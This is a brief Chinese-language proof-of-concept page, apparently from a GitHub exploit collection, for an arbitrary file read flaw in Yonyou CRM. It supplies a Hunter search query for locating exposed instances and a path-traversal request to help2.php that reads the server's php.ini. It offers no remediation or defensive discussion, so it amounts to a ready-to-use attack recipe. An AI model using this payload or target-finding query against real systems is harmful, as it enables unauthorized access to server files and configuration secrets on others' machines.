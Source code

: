 ## 用友CRM 任意文件读取漏洞

## hunter
```
app.name="用友 CRM"
```

## poc
```
http://127.0.0.1:9000/pub/help2.php?key=../../apache/php.ini
```
![image](https://github.com/wy876/POC/assets/139549762/419deef4-d49f-4fe2-aa80-0c6b93174f58)

